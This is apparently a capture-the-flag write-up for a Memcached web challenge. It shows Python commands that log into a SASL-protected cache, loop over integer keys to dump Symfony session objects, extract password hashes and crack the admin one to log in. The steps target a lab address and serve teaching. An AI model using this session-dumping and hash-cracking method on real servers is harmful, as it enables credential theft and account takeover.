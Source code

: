 <p align="center">
<img src="logo.png"/>
</p>

# CTFSecurinets Quals 2018 Writeup
This repository serves as a writeup for CTFSecurinets Final 2018

## SASL Memcached

**Category:** Web
**Points:** 299
**Author:** TheEmperors
**Description:**

> The Emperor worked in the development of a website in which, authenticated sessions should be logged in a cache server. So he developped this feature in a Memcached server. And to prevend anyone to connect to the Memcached server, he enabled the SASL authentication in the Memcached server. After he finished the development of this feature, The Emperor was fired from this team to another one in the same enterprise. The Emperor wanted to make a revenge on his chief. The Emperor remembred that he own only the memcached credentials and he want to get the admin credentials of the website. Can you help him to successfully authenticate using the admin credentials ? "SASL login=SASL password=securinets_SAAASLLL_hahaha_ok_Xd"
> Link : http://192.168.1.101/

**Hint:**

> The Emperors said that keys stored in the Memcached server are an incremented integer

<p align="center">
<img src="resources/web-299-sasl_memcached/_description.PNG"/>
</p>

### Write-up
When visiting the link of the web application, we find out an authentication form :
<p align="center">
<img src="resources/web-299-sasl_memcached/1.PNG"/>
</p>

After reading the description, it seems that there is no way to bypass authentication without searching the credentials from the memcached server.

But when we tried to authenticate to the memcached server with netcat or telnet. We even tried dumping the memcached key with memcdump command but we failed. Because these commands doesn't require credentials. And in this task we have to authenticate to the memcached server using the given credentials.

So it smells a kind of programming web task.

We tried to authenticate to the memcached server using memcached library in PHP but we failed.

But hopefully, in Python, we found the bmemcached library (binary memcached). We installed it and we tested it and it worked like a charm:

```
pip install bmemcached
python -c "import bmemcached;client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd');client.set('key', 'value');print client.get('key');"
```

Output :
```
value
```

So after authenticating to this memcached server and writing and reading some data, we can continue solving this task.

After searching how to dump the memcached data, we found that there is no command that can did this in a binary memcached server (a memcached server in which we authenticated using a SASL credentials). So, if we don't know the keys, we can't did anything.

In the hint, the developper said that the keys stored in the Memcached server are an incremented integer. So we tried to read the key number 1 :
```
python -c "import bmemcached;client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd');print client.get('1');"
```

Output :
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
```

Nice ! This web application is based on the Symfony framework and the session stored in the memcached server contains the user information from the `UsernamePasswordToken` class object.

The username used here is ```simple``` and the password is ```2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5```. But these credentials doesn't works. Maybe this password is a hash.

We tried the easy solution by cracking this hash in crackstation.net and we found that this hash is the ```sha512(password)```. And the password value iss ```simple```.

So we tried this credentials:
```
Login=simple
Password=simple
```

We successfully authenticated but we found this message:
```
You are not an admin user !
```

We figured out that we only have tried to authenticate with a simple user and not with an administrator user. So we have to read all the memcached keys value in python:

```python
import bmemcached
client = bmemcached.Client(('192.168.1.101:11211', ), 'securinets_SAAASLLL_hahaha_ok_Xd','securinets_SAAASLLL_hahaha_ok_Xd')
for i in range(50): print client.get(str(i))
```

Output :
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":756:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:716:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:19:"admin_is_theemperor";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"fe0468680d4f90bf7446e49a3c9100b490a8db06df47588320921a36f0b92703dc7284797bb391a766cbec7c92a9cffa7d1b535c7aa4d345788d0153a93a1ee6";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":742:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:702:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:6:"simple";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"2ed75bf2ad6cf1bf10224192e08d3f856e9d09d9b554fdb9e0bac60ef2772baa18d0d261858931a8b14db32646702f43c26748d2b5d2cb388a99a40266e548d5";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
... (many objects of the simple user)
None
... (many None)
None
```

So the interesting line is this line which contains the administrator credentials:
```
C:74:"Symfony\Component\Security\Core\Authentication\Token\UsernamePasswordToken":756:{a:3:{i:0;N;i:1;s:4:"main";i:2;s:716:"a:4:{i:0;O:41:"Symfony\Component\Security\Core\User\User":7:{s:51:"Symfony\Component\Security\Core\User\Userusername";s:19:"admin_is_theemperor";s:51:"Symfony\Component\Security\Core\User\Userpassword";s:128:"fe0468680d4f90bf7446e49a3c9100b490a8db06df47588320921a36f0b92703dc7284797bb391a766cbec7c92a9cffa7d1b535c7aa4d345788d0153a93a1ee6";s:50:"Symfony\Component\Security\Core\User\Userenabled";b:1;s:60:"Symfony\Component\Security\Core\User\UseraccountNonExpired";b:1;s:64:"Symfony\Component\Security\Core\User\UsercredentialsNonExpired";b:1;s:59:"Symfony\Component\Security\Core\User\UseraccountNonLocked";b:1;s:48:"Symfony\Component\Security\Core\User\Userroles";a:0:{}}i:1;b:0;i:2;a:0:{}i:3;a:0:{}}";}}
```

After cracking the password administrator we found this credentials:
```
Login=admin_is_theemperor
Password=a0000
```

Now, we authenticate using this credentials and we find the flag:
```
Congratulations ! your flag is Flag{Y0_M3mc4cH3d_W1tH_S4SL_4r3_h3LL_xD}
```

So the flag is : ```Flag{Y0_M3mc4cH3d_W1tH_S4SL_4r3_h3LL_xD}```.

For more information how to authenticate to memcached using SASL credentials in all programming language, you can find [here more details](https://devcenter.heroku.com/articles/memcachier).

___










# Scoreboard

This is the scoreboard and the ranking for the 5 teams that they solved at least one task in this CTF :

Summary:

<p align="center">
<img src="scoreboard/ALL.PNG"/>
</p>

Detailed :

<p align="center">
<img src="scoreboard/1.PNG"/>
</p>
<p align="center">
<img src="scoreboard/2.PNG"/>
</p>

If you need the Json file of the scoreboard, you can find it [scoreboard/jsonAdvanced.json](here)

